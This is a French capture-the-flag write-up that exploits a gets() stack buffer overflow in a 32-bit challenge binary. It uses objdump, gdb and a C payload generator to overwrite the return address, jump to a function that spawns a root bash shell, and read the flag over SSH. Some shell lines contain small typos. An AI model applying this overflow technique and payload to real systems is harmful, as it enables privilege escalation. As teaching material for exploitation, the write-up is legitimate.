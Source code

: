 ﻿# Challenge Pwn3 Cybernight write up

## Description du challenge
Si vous avez lu les chall précédants, vous avez l'habitude maintenant, un identifiant pour se connecter via SSH nous est fourni:
```bash
ssh ctf@10.242.0.1 -p 2227
passwd: ***
```
Et on retrouve les fichiers suivant:
- *madness*: ELF Executable 32bit, not stripped
- *madness.c*: Code source de *madness* (il s'avère que les admin ont oublié d'enlever le droit de lecture pour ce chall) 
- *flag.txt*: Fichier contenant le flag sans droit de lecture (obviously)

## Analyse du code source

La première réaction quand on ouvre le code source ![Alt](https://openseauserdata.com/files/08eda6a483276d0eff363de8da6ea23a.jpg =50x50)
```c
int BIGFvBgYnMlYOKia(int ANzzGdmd) {
    int X = 119;
    int k = 2273;
    int b = 5280;
    int i = 7452;
    int v = 8805;
    int W = 4789;
    return X+k-b-i-v+W+ANzzGdmd;
}


int AdMbWtzSbOkVliGR(int pHlzcMIH) {
    int g = 5035;
    int M = 9549;
    int O = 8773;
    int R = 3117;
    int f = 6268;
    int z = 3118;
    return BIGFvBgYnMlYOKia(g-M+O-R+f-z-pHlzcMIH);
}
// [...]
```
On a affaire à un code obfusqué, mais comme on a le code source (dommage), une simple recherche dans le texte comme "system" ou "getuid" nous ramène directement à la fonction qui nous donnera le flag

```bash
faco@archad $ cat madness.c | grep -C 3 system
void SpYhDmDKENhhkOlH() {
    setreuid(geteuid(), geteuid());
    system("/bin/bash");
}

int QSLsmaeRXqktRDtj(int xfYiFvSU) {
```
On devine donc rapidement que le chall sera de détourner l’exécution du programme vers cette fonction.

On a notre objectif, maintenant il nous faut un vecteur.
Cherchons une entrée/interaction utilisateur.
Par chance, à la fin du fichier se trouve notre fonction ``main`` et on peut voir qu'elle appelle la fonction ``bMTsWWvxFNorimkF``:
```c
void bMTsWWvxFNorimkF() {
    char number[11] = {0};

    printf("CHOOSE A NUMBER : ");
    gets(number);
    printf("%d", CjBOSteMrExFSNCq(atoi(number)));
}

int main() {
    bMTsWWvxFNorimkF();
    return 0;
}
```
Le vecteur est vite trouvé, on a un buffer de taille 11 qui est rempli par la fonction ``gets`` qui ne vérifie pas la taille de l'entrée utilisateur par rapport à la taille du buffer dans lequel elle écrit.

## Exploitation

Comme il a été vu précédement, notre objectif est de faire sauter l'exécution du programme vers la fonction ```SpYhDmDKENhhkOlH```.
La méthode est la même que pour le chall 2:
- Récuperer l'adresse de la fonction cible
- Déterminer le padding, ici on veut que notre payload modifie l'adresse de retour de fonction (toujours **[EBP+4]** dans la stack)
- Assembler padding et payload, en l'occurence l'adresse de la fonction cible

### Récupérer l'adresse de la fonction cible

Pour récupérer l'adresse de votre fonction, j'utilise ``objdump -t`` pipé dans ``grep`` pour chercher au sein de la liste des symboles de l’exécutable
 ```bash
 faco@archad $ objdump -t ./madness | grep SpYhDmDKENhhkOlH
 0804978b g     F .text  00000047              SpYhDmDKENhhkOlH
 ```
 Et voilà on a notre adresse : *0x0804978b*
 
### Déterminer le padding

J'ouvre le programme *madness* dans gdb et je commence par désassembler la fonction ``bMTsWWvxFNorimkF`` qui utilise ``gets``.
```
(gdb) disassemble bMTsWWvxFNorimkF
   0x08049fe0 <+0>:	endbr32 
   0x08049fe4 <+4>:	push   %ebp
   0x08049fe5 <+5>:	mov    %esp,%ebp
   0x08049fe7 <+7>:	push   %ebx
   0x08049fe8 <+8>:	sub    $0x14,%esp
   0x08049feb <+11>:	call   0x8049170 <__x86.get_pc_thunk.bx>
   0x08049ff0 <+16>:	add    $0x3010,%ebx
   0x08049ff6 <+22>:	movl   $0x0,-0x13(%ebp)
   0x08049ffd <+29>:	movl   $0x0,-0xf(%ebp)
   0x0804a004 <+36>:	movw   $0x0,-0xb(%ebp)
   0x0804a00a <+42>:	movb   $0x0,-0x9(%ebp)
   0x0804a00e <+46>:	sub    $0xc,%esp
   0x0804a011 <+49>:	lea    -0x1fee(%ebx),%eax
   0x0804a017 <+55>:	push   %eax
   0x0804a018 <+56>:	call   0x80490b0 <printf@plt>
   0x0804a01d <+61>:	add    $0x10,%esp
   0x0804a020 <+64>:	sub    $0xc,%esp
   0x0804a023 <+67>:	lea    -0x13(%ebp),%eax
   0x0804a026 <+70>:	push   %eax
   0x0804a027 <+71>:	call   0x80490c0 <gets@plt>
   [...]
   ```
   On place un breakpoint sur ``*bMTsWWvxFNorimkF+71`` (*0x0804a027*). 
   Le breakpoint nous permettera d'avoir la stack juste avant l'overflow, ainsi on pourra déterminer la taille de notre padding afin d'atteindre l'offset **[EBP+4]**.

Une fois le programme lancé on hit directement le breakpoint avant l'exécution de ``gets``.
J'affiche 20 WORD en hexadécimale depuis $ESP (le haut de la stack)
```
Breakpoint 1, 0x0804a027 in bMTsWWvxFNorimkF ()
(gdb) x/20wx $esp
0xffffd080:	0xffffd095	0x00000000	0x00000000	0x08049ff0
0xffffd090:	0xffffffff	0x000000f4	0x00000000	0x00000000
0xffffd0a0:	0x00000000	0xf7e1fe34	0xffffd0b8	0x0804a07c
0xffffd0b0:	0x00000000	0x00000000	0x00000000	0xf7c1f119
0xffffd0c0:	0x00000001	0xffffd174	0xffffd17c	0xffffd0e0
```
Une technique pour gagner du temps et avoir facilement le bon offset: (*cf. cyclic_gen() de pwntools*)
```bash
faco@archad $ python -c "print('A' * 11 + 'BBBBCCCCDDDDEEEEFFFF') > cycle
faco@archad $ gdb ./madness
(gdb) r < cycle
[...]
Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
```
0x45 correspond à la lettre 'E', donc sur notre chaîne de character, les 4 'E' ont bien recouvert [EBP+4] et EIP a tenté d’exécuter l'instruction à l'adresse 0x45454545 après la fin de la fonction.
Il ne reste plus qu'à remplacer 'EEEE' par notre payload.

PADDING = 11 + 4 * 3 = 23

### Écriture de l'exploit

```c
#define PADDING 23
#define CHAR 0x41
#define PAYLOAD "\x8b\x97\x04\x08"
#define PAYLOAD_LEN 4
```
```c
char* buf = (char*)malloc(PADDING+PAYLOAD_LEN);
memset(buf, CHAR, PADDING);
memcpy(buf+PADDING, PAYLOAD, PAYLOAD_LEN);
```
On écrit buf dans un fichier avec fwrite
```c
fwrite(buf, 1, PADDING+PAYLOAD_LEN, f);
```
Il ne reste plus qu'à compiler et générer notre exploit.
```bash
faco@archad $ gcc exploit.c -o genexploit; ./genexploit
Exploit written at evil
```

### Exploitation
**IMPORTANT**: pour pouvoir profiter du */bin/bash*, il faut également """rediriger un autre stdin""" vers le child créé par ``sytem('/bin/bash ...')``. 
Pour pouvoir envoyer des commandes au shell:
```bash
faco@archad $ (cat evil; cat) | ./madness

whoami
faco
```
Il ne reste plus qu'à tester via ssh

```bash
faco@archad $ (cat evil; evil) | ssh ctf@10.242.0.1 -p 2227 'bash -c ~/madness '
CHOOSE A NUMBER: 

whoami
root
cat ./flag.txt
{FLAG}
``` 




 

